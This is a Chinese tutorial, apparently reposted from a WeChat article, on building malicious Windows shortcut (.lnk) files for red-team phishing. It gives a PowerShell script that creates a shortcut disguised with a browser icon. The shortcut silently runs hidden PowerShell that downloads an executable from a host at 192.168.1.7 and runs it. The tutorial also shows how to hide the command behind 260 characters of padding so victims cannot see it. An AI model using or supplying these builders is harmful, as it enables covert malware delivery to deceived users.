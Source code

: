 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/SzKX0XrAjgo7SL2GYjtSAg)

• 前言

**在常年攻防演练以及红蓝对抗中常被用于红方攻击的一种进行打点的方式，由于本人只是个安服仔，接触的比较少（但也不能不学），就有了这篇文章，参考各位大佬的姿势总结一下，顺便让好哥哥们复习一下基础。**

钓鱼手段

### Lnk（快捷方式）

可以在 “⽬标” 栏写⼊⾃⼰的恶意命令，如 powershell 上线命令等，这里举例为 CMD

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zleycDibFeiboWibhEQlF4qbkadn5hn6KWwp6SJrwoibWQY8YjcGej2J03lLt0uiaKHAqV38jbRlFzESR3ndW1tpicSQ/640?wx_fmt=png)

当我点击谷歌浏览器时，弹出了 CMD

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zleycDibFeiboWibhEQlF4qbkadn5hn6KWwY5P4hT82tvBcCpDoFJHexM9jd9Wu86YsKficMd4IDlcszUOd0vkEqQA/640?wx_fmt=png)

可以进行更改图标

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zleycDibFeiboWibhEQlF4qbkadn5hn6KWwyjCpWsGdqJXzibicDTMZibM3Qh8DAibjibLjou6XrNbZpnviccLXokyBtskw/640?wx_fmt=png)

• 快速生成 lnk 样本

```
$WshShell = New-Object \-comObject WScript.Shell  
$Shortcut = $WshShell.CreateShortcut("test.lnk")  
$Shortcut.TargetPath = "%SystemRoot%\\system32\\cmd.exe"  
$Shortcut.IconLocation = "%SystemRoot%\\System32\\Shell32.dll,21"  
$Shortcut.Arguments = "cmd /c powershell.exe -nop -w hidden -c IEX (new-object net.webclient).DownloadFile('http://192.168.1.7:8000/ascotbe.exe','.\\\\ascotbe.exe');&cmd /c .\\\\ascotbe.exe"  
$Shortcut.Save()
```

运行

```
powershell -ExecutionPolicy RemoteSigned -file test.ps1
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zleycDibFeiboWibhEQlF4qbkadn5hn6KWw4Oat4LzTN2juMRcNfkIiamecgm6EdAy8MicRhXcEQhDLdBY7fqyff0uQ/640?wx_fmt=png)

•Tips

**目标文件位置所能显示最大字符串为 260 个，所有我们可以把执行的命令放在 260 个字符后面**

```
$file = Get-Content ".\\test.txt"  
$WshShell = New-Object \-comObject WScript.Shell  
$Shortcut = $WshShell.CreateShortcut("test.lnk")  
$Shortcut.TargetPath = "%SystemRoot%\\system32\\cmd.exe"  
$Shortcut.IconLocation = "%SystemRoot%\\System32\\Shell32.dll,21"  
$Shortcut.Arguments = '                                                                                                                                                                                                                                      '\+ $file  
$Shortcut.Save()
```
